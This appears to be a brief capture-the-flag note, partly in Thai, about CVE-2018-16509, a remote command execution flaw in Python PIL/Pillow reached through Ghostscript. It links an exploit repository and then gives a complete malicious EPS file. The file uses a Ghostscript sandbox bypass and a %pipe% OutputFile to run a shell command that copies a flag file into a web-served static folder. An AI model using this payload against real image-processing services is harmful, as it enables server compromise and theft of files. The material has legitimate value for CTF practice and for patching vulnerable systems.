

https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

library PIL มีช่องโหว่ Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509

%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt)) currentdevice putdeviceprops

